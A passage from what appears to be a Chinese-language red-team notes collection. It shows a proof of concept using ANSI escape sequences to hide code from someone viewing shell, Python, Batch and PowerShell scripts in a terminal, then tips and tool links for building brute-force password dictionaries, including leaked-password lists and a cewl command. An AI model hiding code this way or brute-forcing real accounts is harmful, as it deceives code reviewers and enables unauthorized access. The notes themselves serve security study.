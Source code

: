 - poc
    ```bash
    # linux
    echo -e '#!/bin/sh\n\necho "evil!"\nexit 0\n\033[2Aecho "Hello World!"\n' > script.sh
    chmod a+x script.sh

    # python
    echo -e '#!/usr/bin/python\n\nprint "evil!";\nexit(0);\n#\033[2A\033[1Dprint "Hello World!";\n' > script.py
    chmod a+x script.py

    # Batch
    echo -e '@echo off\n\r\n\recho evil!\r\n::\033[2D  \033[A\033[2Decho Hello World!' > script.bat

    # PowerShell
    echo -e 'write-host "evil!"\r\n#\033[A\033[2Dwrite-host "Hello World!"' > script.ps1
    ```

---

## 爆破
### 字典

**Tips**
1. 按场景来看,敏感的场景,目标或业务量大的场景,字典不是越多越好,力求精简,求快,不要把功夫全放在fuzz上,条件允许的话就针对目标专门定制一个字典,这可能涉及到一些社工的技巧,可以参考 [搜索引擎 Hacking](./笔记/RedTeam/搜索引擎Hacking.md) 里的案例.
2. 如果没有安全设备,那就随便搞吧,先来个 [TOP10]*[TOP10000] 再说.
3. 字典还是自己收集整理的最好,有空的话,建议把 github 上的自己分分类,把什么 `Hentai`、`pussy`、`dick` 这种奇奇怪怪的密码早点删了🤣.
4. 数据库是管理字典的好帮手,善用统计、去重功能有奇效.
5. 很多厂商设备默认口令可以在这个网站找到 https://default-password.info/
6. 想要掌握关于爆破的各种攻击技术一定要学好加密知识,不要 "练拳不练功，到老一场空"

**字典生成**
- [LandGrey/pydictor](https://github.com/LandGrey/pydictor) - 一个强大实用的黑客暴力破解字典建立工具
- [crunch](https://sourceforge.net/projects/crunch-wordlist/) - 字典生成工具
- [RicterZ/genpAss](https://github.com/RicterZ/genpAss) - 中国特色的弱口令生成器
- [自制弱口令字典 top100](https://gv7.me/articles/2017/making-the-password-top-100/)
- [HongLuDianXue/BaiLu-SED-Tool](https://github.com/HongLuDianXue/BaiLu-SED-Tool) - 白鹿社工字典生成器，灵活与易用兼顾。
- cewl - 可抓取网站信息用于生成密码的工具,kali 自带
    ```
    cewl http://xxx.com -w out.txt
    ```

**杂项字典**
- [Stardustsky/SaiDict](https://github.com/Stardustsky/SaiDict) - 字典分类的不错
- [rootphantomer/Blasting_dictionary](https://github.com/rootphantomer/Blasting_dictionary) - 爆破字典
- [Weakpass](https://weakpass.com/)
- [danielmiessler/SecLists](https://github.com/danielmiessler/SecLists)
- [r35tart/RW_Password](https://github.com/r35tart/RW_Password) - 此项目用来提取收集以往泄露的密码中符合条件的强弱密码
- [wainshine/Chinese-Names-Corpus](https://github.com/wainshine/Chinese-Names-Corpus) - 中文人名语料库.中文姓名,姓氏,名字,称呼,日本人名,翻译人名,英文人名.成语词典.
- [modood/Administrative-divisions-of-China](https://github.com/modood/Administrative-divisions-of-China) - 中华人民共和国行政区划:省级(省份直辖市自治区)、 地级(城市)、 县级(区县)、 乡级(乡镇街道)、 村级(村委会居委会) ,中国省市区镇村二级三级四级五级联动地址数据 Node.js 爬虫.
- [berzerk0/Probable-Wordlists](https://github.com/berzerk0/Probable-Wordlists)
- [minimaxir/big-list-of-naughty-strings](https://github.com/minimaxir/big-list-of-naughty-strings)
- [k8gege/PasswordDic](https://github.com/k8gege/PasswordDic) - 2011-2019年Top100弱口令密码字典 Top1000密码字典 服务器 SSH/VPS 密码字典 后台管理密码字典 数据库密码字典
